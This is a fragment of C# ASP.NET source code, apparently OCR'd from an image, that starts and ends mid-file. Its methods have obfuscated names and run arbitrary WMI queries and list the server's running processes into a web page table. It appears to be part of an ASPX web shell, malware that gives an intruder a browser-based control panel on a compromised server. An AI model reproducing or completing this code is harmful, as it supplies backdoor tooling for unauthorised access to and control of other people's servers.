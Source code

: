 }
public ManagementObjectCollection PhQTd(string query)
{
ManagementObjectSearcher QS=new ManagementObjectSearcher(new SelectQuery(query));
return QS.Get();
}
public DataTable cCf(string query)
{
DataTable dt=new DataTable();
int i=0;
ManagementObjectSearcher QS=new ManagementObjectSearcher(new SelectQuery(query));
try
{
foreach(ManagementObject m in QS.Get())
{
DataRow dr=dt.NewRow();
PropertyDataCollection.PropertyDataEnumerator oEnum;
oEnum=(m.Properties.GetEnumerator()as PropertyDataCollection.PropertyDataEnumerator);
while(oEnum.MoveNext())
{
PropertyData DRU=(PropertyData)oEnum.Current;
if(dt.Columns.IndexOf(DRU.Name)==-1)
{
dt.Columns.Add(DRU.Name);
dt.Columns[dt.Columns.Count-1].DefaultValue="";
}
if(m[DRU.Name]!=null)
{
dr[DRU.Name]=m[DRU.Name].ToString();
}
else
{
dr[DRU.Name]=string.Empty;
}
}
dt.Rows.Add(dr);
}
}
catch(Exception error)
{
}
return dt;
}
public void YUw()
{
try
{
Bin_H2_Title.InnerText="Process &gt;&gt;";
WICxe();
DCbS.Visible=true;
int UEbTI=0;
Process[] p=Process.GetProcesses();
foreach(Process sp in p)
{
UEbTI++;
string bg=OKM();
TableRow tr=new TableRow();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
for(int i=1;i&lt;7;i++)
{
TableCell td=new TableCell();
if(i==1)